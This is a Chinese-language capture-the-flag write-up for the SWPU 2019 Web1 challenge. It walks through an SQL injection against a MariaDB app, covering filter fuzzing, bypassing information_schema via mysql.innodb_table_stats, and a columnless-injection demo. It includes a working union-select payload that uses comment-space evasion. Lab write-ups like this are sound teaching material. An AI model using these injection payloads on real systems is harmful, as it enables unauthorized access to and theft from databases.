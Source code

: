 # [SWPU 2019]

## 0x01 Web1

一开始看到待管理员确认还以为是个xss,结果等了半天都没数据回传。。。。

输入一个单引号

发现有报错

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' limit 0,1' at line 1
```

看来又是个sql注入，用的是MariaDB,mysql的一个变体

fuzz一下发现``#、--、or``被过滤了，只能一个个select。。。（order有or，可以用group by）

很恶心的是要一直试到22个....

2,3可控

union没被过滤，可以联合注入但是比较麻烦的是鉴于or被过滤了informartion也不行了。。。。。

也就是说以前利用information_schema的方法没有用了

一种bypass的方式是利用 sys.schema

``sys.schema_auto_increment_columns ``或``sys.schema_table_statistics_with_buffer``

但是buuoj上貌似没有这个库...

一种是mysql.innodb_table_stats

可以爆表

payload:

```
title=%27/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/'/*&content=123*/&ac=add
```

但是没有办法把字段的数据爆出来，因为不知道列名....

这里使用无列名的注入方法。

考虑这样的表格，使用select 1,2,3,4,5 union select * from persons可以得到一张新的表格

```
MariaDB [test]> select * from persons;
+------+----------+-----------+--------------+--------+
| ID   | LastName | FirstName | Address      | Credit |
+------+----------+-----------+--------------+--------+
|    1 | Gates    | Bill      | Xuanwumen 10 |   NULL |
|    1 | Gates    | Bill      | Xuanwumen 10 |   NULL |
|    2 | Xill     | Hiler     | Like 10      | 100.67 |
|    2 | Eki      | Hiler     | Nanfen 10    | 100.67 |
+------+----------+-----------+--------------+--------+

->

MariaDB [test]> select 1,2,3,4,5 union select * from persons;
+------+-------+-------+--------------+--------+
| 1    | 2     | 3     | 4            | 5      |
+------+-------+-------+--------------+--------+
|    1 | 2     | 3     | 4            |      5 |
|    1 | Gates | Bill  | Xuanwumen 10 |   NULL |
|    2 | Xill  | Hiler | Like 10      | 100.67 |
|    2 | Eki   | Hiler | Nanfen 10    | 100.67 |
+------+-------+-------+--------------+--------+
```